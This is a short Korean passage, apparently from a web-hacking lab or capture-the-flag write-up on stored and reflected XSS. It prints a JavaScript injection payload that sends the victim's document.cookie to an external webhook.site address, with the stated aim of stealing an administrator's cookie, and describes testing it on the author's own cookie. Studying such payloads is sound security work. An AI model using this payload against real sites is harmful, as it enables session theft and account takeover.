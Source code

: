 이를 이용하여 관리자의 쿠키를 탈취할 수 있다.

![xss2 payload](/assets/web-screenshots/stored-reflected-xss/xss2_payload.png)

```js
');new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie//
```

위 페이로드를 이용해 직접 본인의 쿠키가 외부 서버(Webhook)로 전송되는지 확인 테스트를 수행하였다. 

> **결과:**

![xss2 payload](/assets/web-screenshots/stored-reflected-xss/xss2_me_cookie.png)
